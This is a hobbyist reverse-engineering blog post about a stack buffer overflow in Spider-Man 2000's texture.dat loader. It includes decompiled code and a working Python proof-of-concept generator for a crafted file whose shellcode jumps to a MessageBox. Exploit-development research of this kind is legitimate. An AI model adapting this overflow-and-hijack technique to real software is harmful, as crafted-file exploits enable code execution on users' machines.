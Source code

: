 ```yaml
---
layout: post
title: "Exploiting: Spiderman 2000 - Buffer overflow in file loading routine"
description: "After reversing some routines of the game I stumbled upon a possible buffer overflow vulnerability that turned out to be exploitable"
created: 2019-12-28
modified: 2019-12-28
tags: [spiderman, cracking, protection, spiderman 2000, reverse engineering, ida pro, exploiting, buffer overflow, x64]
comments: false
---
```



# Background


At the end of this year(2019) I decided to completly reverse engineer the game Spider-Man 2000 for the PC in order to be able to fix all of its problems and possibly port it to more architectures and OS(es).
During my second stream I was working on the routine that loads the file `texture.dat` and noticed that the buffer not only in allocated in the stack but there's no boundary check.

`texture.dat` is a file that exists in the game's directory and apparents to be useless since the lack of it doesn't cause any harm to the game or experience.


# The vulnerability


`sub_5163E0` calls `sub_516250` to load `texture.dat` and passes a local variable as a buffer.
```c
int __cdecl sub_5163E0(char *a1)
{
	int v2; // [esp+0h] [ebp-224h]
	int Buffer; // [esp+4h] [ebp-220h]
	char v4; // [esp+8h] [ebp-21Ch]
	char v5; // [esp+Bh] [ebp-219h]
	int v6; // [esp+24h] [ebp-200h]

	if ( a1 )
		*a1 = 0;
	if ( !sub_516250(&Buffer, aTextureDat) )
		return 2;
	(...)
}
```

As can be seen below, this buffer only has `0x220` bytes.
```asm
.text:005163E0 Buffer          = dword ptr -220h
.text:005163E0 var_21C         = byte ptr -21Ch
.text:005163E0 var_219         = byte ptr -219h
.text:005163E0 var_200         = dword ptr -200h
.text:005163E0 arg_0           = dword ptr  4
.text:005163E0
.text:005163E0                 sub     esp, 220h
.text:005163E6                 push    esi
.text:005163E7                 mov     esi, [esp+224h+arg_0]
.text:005163EE                 test    esi, esi
.text:005163F0                 jz      short loc_5163F5
.text:005163F2                 mov     byte ptr [esi], 0
.text:005163F5
.text:005163F5 loc_5163F5:                             ; CODE XREF: sub_5163E0+10?j
.text:005163F5                 lea     eax, [esp+224h+Buffer]
.text:005163F9                 push    offset aTextureDat ; "texture.dat"
.text:005163FE                 push    eax             ; lpBuffer
.text:005163FF                 call    sub_516250
.text:00516404                 add     esp, 8
.text:00516407                 test    eax, eax
.text:00516409                 jnz     short loc_516415
.text:0051640B                 mov     al, 2
.text:0051640D                 pop     esi
.text:0051640E                 add     esp, 220h
.text:00516414                 retn

```

Here's the relevant part of the loading:
```c
LPVOID __cdecl sub_516250(LPVOID lpBuffer, char *a2)
{
	(...)
	v9 = CreateFileA(Filename, 0x80000000, 1u, 0, 3u, 0, 0);
	v10 = v9;
	if ( v9 == (HANDLE)-1 )
		return 0;
	v11 = GetFileSize(v9, 0);
	v12 = v11;
	
	//The only check it does is wether the number doesn't have the last 2 bits set and if it's bigger than 4
	if ( v11 < 4 || v11 & 3 )
	{
		CloseHandle(v10);
		return 0;
	}
	ReadFile(v10, lpBuffer, v11, &NumberOfBytesRead, 0);
	CloseHandle(v10);
	if ( NumberOfBytesRead < v12 )
		return 0;
	*(_DWORD *)lpBuffer = v12 >> 2;

	//Returns an array of size 0x190 that contains the decryption key
	v13 = sub_4FC230();

	v14 = v12 - 4;
	v15 = 0;

	//Decrypts texture.dat
	if ( v14 )
	{
		do
		{
			*((_BYTE *)lpBuffer + v15 + 4) ^= v13[v15 % 0x190];
			++v15;
		}
		while ( v15 < v14 );
	}
	return lpBuffer;
}
```

Having a `texture.dat` of size `0x224` is enough to trigger the vulnerability.


# Exploiting

*NOTE: All the code for the generator is available in my `spidey-tools` repository.*

Out of the `0x224` bytes the first 4 are dedicated to the file size and last 4 to the jump address. So that results in `0x21C` for the shellcode which is more than enough for a simple PoC.


## texture.dat generator

The script creates a list that latter is converted to a `bytearray` and then dumped to disk.

The way the list is generated is as follows:
* Creates 4 dummy bytes
* Adds the shellcode
* Adds the string "*Game has been pwned":
* Adds dummy bytes until `0x220` is reached
* Adds the jump address

Finally it is encrypted(XOR is symmetric) and then dumped to disk.

Code:

```python
byt = open("xor_key.bin", "rb").read()
final = "\x00\x00\x00\x00\x6A\x00\x6A\x00\x68".encode()
final = [e for e in final]
final.append(0x26)
final.append(0xFC)
final.append(0x19)
final.append(0x00)
final.append(0x6A)
final.append(0x00)
final = [e for e in final]
final.append(0xB8)
final.append(0xC8)
final.append(0x59)
final.append(0x51)
final.append(0x00)
final.append(0xFF)
final.append(0xE0)

pwn_str = "Game has been pwnd\x00".encode()
for e in pwn_str:
    final.append(e)

while len(final) != 0x220:
    final.append(0x61)

final.append(0x14)
final.append(0xFC)
final.append(0x19)
final.append(0x00)

final = bytearray(bytes(final))
for index,_ in enumerate(final[4:]):
    final[4+index] ^= byt[index%0x190]


with open("texture.dat", "wb") as f:
    f.write(final)
```
The string with the hex characters - `\x00` - must respect the utf-8 encoding. That caused lots of problems, that the string `\xB8` would be converted to `\xC2\xB8`, that is why I split the logic.

## Shellcode

Since this exploit has a lack usefulness I decided to keep it simple and just spawn a `MessageBox`.
Here's the full shellcode:

```asm
6A 00        | push 0                     |
6A 00        | push 0                     |
68 26FC1900  | push 19FC26                | 19FC26:"Game has been pwnd"
6A 00        | push 0                     |
B8 C8595100  | mov eax,spideypc.5159C8    |
FFE0         | jmp eax                    |

```

The address `spideypc.5159C8` contains a call to `MessageBoxA` followed by a `_exit(1)` which was perfect for this case.


## Result
![result of buffer overflow ](images/spidey/buffer_overflow.png)


## Video of process

If you're interested in seeing how this process unfolded then you can watch the two VODs.

Here I stumbled upon the problem but don't go super deep:

{.video https://www.youtube.com/embed/ZN365iN7myM}

Stream dedicated to developing the exploit:

{.video https://www.youtube.com/embed/a6A6XOOhJ2g}
